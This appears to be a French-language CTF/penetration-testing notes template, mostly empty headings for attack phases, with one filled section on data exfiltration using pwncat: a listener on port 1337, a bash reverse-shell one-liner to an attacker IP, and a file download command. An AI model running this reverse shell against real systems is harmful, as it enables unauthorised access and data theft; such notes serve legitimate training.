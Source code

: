 # Reconnaissance
# Scanning & Enumeration


# Exploitation (Gaining Access)
# Exfiltration de données
Utilisation de pwncat:
1. Côté attaquant:
<code>pwncat-cs -lp 1337</code>

2. Côté cible
<code>bash -c 'bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1'</code>

3. Côté attaquant
<code>download /chemin/fichier</code>

# Privilege Escalation
# Command & Control (Persistence/Maintaining Access)
# Clearing Tracks (usually not necessary in CTF’s, but good practice)

# Resources
